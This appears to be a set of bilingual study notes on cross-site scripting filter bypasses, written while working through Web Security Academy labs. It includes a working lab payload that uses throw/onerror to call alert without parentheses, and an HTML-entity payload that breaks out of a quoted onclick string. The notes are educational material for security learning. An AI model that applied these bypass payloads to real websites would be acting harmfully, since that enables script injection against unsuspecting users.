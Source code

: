 **throw** statement with an exception handler

这使您能够在不使用括号的情况下向函数传递参数。下面的代码将alert（）函数分配给全局异常处理程序，throw语句将1传递给异常处理程序（在本例中为alert）。最终结果是使用1作为参数调用alert（）函数。

```html
onerror=alert;throw 1
```

```html
lab
????
Visit the following URL, replacing your-lab-id with your lab ID:
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
The lab will be solved, but the alert will only be called if you click "Back to blog" at the bottom of the page.
(https://your-lab-id.web-security-academy.net/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:')
该漏洞利用异常处理调用带有参数的警报函数。使用throw语句，用空白注释分隔，以绕过无空格限制。警报功能分配给OnError异常处理程序。
由于throw是一个语句，因此不能用作表达式。相反，我们需要使用arrow函数来创建一个块，以便可以使用throw语句。然后我们需要调用这个函数，所以我们将它分配给window的toString属性，并通过强制window上的字符串转换来触发它。
```

### Making use of HTML-encoding

当XSS上下文是引用的标记属性中的一些现有JavaScript（如事件处理程序）时，可以使用HTML编码来绕过一些输入过滤器。

如果服务器端应用程序阻止或清除利用XSS所需的某些字符，则通常可以通过对这些字符进行HTML编码来绕过输入验证。

For example, if the XSS context is as follows:

```html
<a href="#" onclick="... var input='controllable data here'; ...">
```

and the application blocks or escapes single quote characters, you can use the following payload to break out of the JavaScript string and execute your own script:

```html
&apos;-alert(document.domain)-&apos;
```

`&apos;`是表示撇号或单引号的HTML实体。因为浏览器HTML在解释JavaScript之前解码onclick属性的值，所以实体被解码为引号，成为字符串分隔符，因此攻击成功

```html
lab ： 在xss代码前后加上-

&apos;-alert(document.domain)-&apos;
http://foo?&apos;-alert(1)-&apos;
```

### XSS in JavaScript template literals

JavaScript模板文本是允许嵌入JavaScript表达式的字符串文本。嵌入的表达式将被计算并通常连接到周围的文本中。模板文本被封装在反勾号`中而不是普通的引号中，嵌入的表达式使用${…}语法进行标识。

```html
like：
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```
